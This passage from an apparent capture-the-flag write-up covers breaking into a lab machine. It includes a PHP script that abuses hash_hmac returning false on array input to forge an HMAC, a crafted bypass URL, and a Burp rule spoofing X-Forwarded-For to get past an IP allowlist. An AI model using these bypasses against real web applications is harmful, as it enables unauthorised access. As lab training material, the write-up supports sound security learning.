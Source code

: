 Studying the code and breaking my head on it, I found out that `hash_hmac` function can be used to out benefit. Accoring to the [function's defintion](https://www.php.net/manual/en/function.hash-hmac.php), this function takes strings as it's parameter and if something is wrong it give us boolean value - false.
<br><br>
So, we can force this function to produce to generate false as it's output, using the `n` parameter. If `n` is set then the $secret will contain some value, so using the above information let's see what we can do. And after we get the value for $secret as `false`. We can then bypass other if-else branch and get access to the system using `h` and `host` parameters as such,
<br><br>
What we have to do is, pass false and generate the value for `$hm` with some hosts, as such
```php
# generatehash.php
  1 <?php
  2 $secret = hash_hmac('sha256','hacker.com',false);
  3 print($secret)
  4 ?>

# Output : e86f889ce1872bcb2d54e7145c1a4b4d85ee32fdf4223ac345106a212f70b2bc
```
So we can craft a url request, which has,
* n[]=[1]
* h=e86f889ce1872bcb2d54e7145c1a4b4d85ee32fdf4223ac345106a212f70b2bc
* host=hacker.com
```url
pwd.harder.local/index.php?n[]=0&h=e86f889ce1872bcb2d54e7145c1a4b4d85ee32fdf4223ac345106a212f70b2bc&host=hacker.com
```

And after so much of struggle, we have something,
|url 	                |username 	|password (cleartext)            |
| --------------------- |:---------:|--------------------------------|
|http://shell.harder.htb| 	evs 	|xxxxxxxxxxxxxxxxxxxxxxxxxx|

We have a new virtual host and a new set of credentials, let's add this host again into /etc/hosts and see what we have! 
The above creds don't work on the login page of `pwd.harder.local`, it must only work with the specified url, let's try that!

This virtual hosts doesn't seem to work!!!!! Give same 404 error! Why it's `htb` there in the domain, we can try changing that to `local` and see if that works! Yay!! It works!!!!!

We have a login page and we are into the system with the provided creds. And another hurdle slammed us in our face,
```
Your IP is not allowed to use this webservice. Only 10.10.10.x is allowed
```

We can easily bypass this by using `X-Forwarded-For` to what it says: 10.10.10.x, let x be 100! Mathematical nostalgia! LOL
Let's fire-up the burp and go to `options` of Proxy tab and add a new record to `Match and Replace`,
```
Type: Request Header
Match:
Replace: X-Forwarded-For: 10.10.10.100
```
and add this record, what this will do is append `X-Forwarded-For: 10.10.10.100` to each and every request header and that will suffice our purpose!
```
GET /index.php HTTP/1.1
Host: shell.harder.local
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
```